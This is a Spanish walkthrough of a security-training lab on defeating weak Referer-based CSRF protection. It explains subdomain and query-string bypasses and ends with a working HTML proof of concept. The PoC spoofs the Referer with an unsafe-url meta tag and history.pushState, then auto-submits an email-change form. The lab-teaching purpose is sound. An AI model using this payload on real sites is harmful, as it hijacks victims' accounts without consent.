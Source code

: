 ## Validation of Referer can be circumvented

Algunas aplicaciones validan la cabecera Referer de una manera ingenua que puede ser eludida. Por ejemplo, si la aplicación valida que el dominio en el Referer comienza con el valor esperado, entonces el atacante puede colocar esto como un subdominio de su propio dominio:

```c
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Del mismo modo, si la aplicación simplemente valida que el Referer contiene su propio nombre de dominio, entonces el atacante puede colocar el valor requerido en otra parte de la URL:

```c
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

Aunque es posible que pueda identificar este comportamiento utilizando Burp, a menudo encontrará que este enfoque ya no funciona cuando vaya a probar su prueba de concepto en un navegador. En un intento de reducir el riesgo de que se filtren datos confidenciales de esta forma, muchos navegadores eliminan por defecto la cadena de consulta del encabezado Referer.

Puedes anular este comportamiento asegurándote de que la respuesta que contiene tu exploit tiene la cabecera `Referrer-Policy: unsafe-url` establecida (ten en cuenta que Referrer está escrito correctamente en este caso, sólo para asegurarte de que estás prestando atención). Esto asegura que se enviará la URL completa, incluyendo la cadena de consulta.

## LAB 

![20250727010630.png](20250727010630.png)

Al interceptar las solicitudes, enviamos una para cambiar el email 

![20250727164024.png](20250727164024.png)

En la anterior solicitud vemos que efectivamente se logro cambiar el email, pero ahora al quietar el `Referer`  este nos devuelve un `invalid referer header`

![20250727164057.png](20250727164057.png)

ahora agregamos `Referer: https://attacker.com/?0ab900a004dbe60280f31214005c007d.web-security-academy.net` y volvemos a enviar. La solicitud de cambio de email funciona

![20250727164420.png](20250727164420.png)

Entendido esto, ahora construiremos nuestra POC. 

Muchas aplicaciones implementan una protección básica contra CSRF revisando el encabezado `Referer`. La lógica suele ser: si el `Referer` contiene el dominio legítimo, la petición se considera confiable. Esta validación es débil, porque no comprueba si el `Referer` comienza exactamente con la URL del sitio víctima, sino que solo busca la cadena del dominio dentro del valor. Esta debilidad permite ataques si el atacante logra inyectar el dominio víctima en el `Referer` que el navegador envía.

- Uso de `<meta name="referrer" content="unsafe-url">`

De manera predeterminada, los navegadores pueden truncar el `Referer` y enviar únicamente el origen por razones de privacidad, lo que reduciría nuestra capacidad de controlarlo. La etiqueta HTML `<meta name="referrer" content="unsafe-url">` indica al navegador que envíe el `Referer` completo, incluyendo la URL actual con su query string. Esto es fundamental porque nos permite incluir cadenas personalizadas en la URL que se reflejarán en el encabezado `Referer` durante la solicitud CSRF.


- Manipulación con `history.pushState()`

Para explotar la validación débil, necesitamos que la URL actual contenga el dominio legítimo dentro de su estructura. La función `history.pushState()` nos permite cambiar la URL visible en la barra del navegador sin recargar la página ni modificar el dominio real (sigue siendo el dominio del atacante). Al llamar a `history.pushState('', '', '/?0ab900a004dbe60280f31214005c007d.web-security-academy.net');`, la URL del atacante se convierte en algo como `https://attacker.com/?0ab900a004dbe60280f31214005c007d.web-security-academy.net`. Cuando el navegador envía la petición POST, el `Referer` incluirá este valor completo.

- Efecto combinado

Como resultado, el servidor recibe un `Referer` que contiene el dominio legítimo en la query string, aunque la solicitud proviene del atacante. Si la validación solo busca la cadena `web-security-academy.net` dentro del `Referer`, la comprobación pasará. Esta técnica demuestra por qué las validaciones basadas únicamente en el `Referer` son inseguras y pueden ser fácilmente engañadas con manipulaciones del historial y control del comportamiento del navegador.

Así que nuestra POC quedaría asi:

```html
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
    </head>
  <body>
    <form action="https://0ab900a004dbe60280f31214005c007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener7@evil.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ab900a004dbe60280f31214005c007d.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```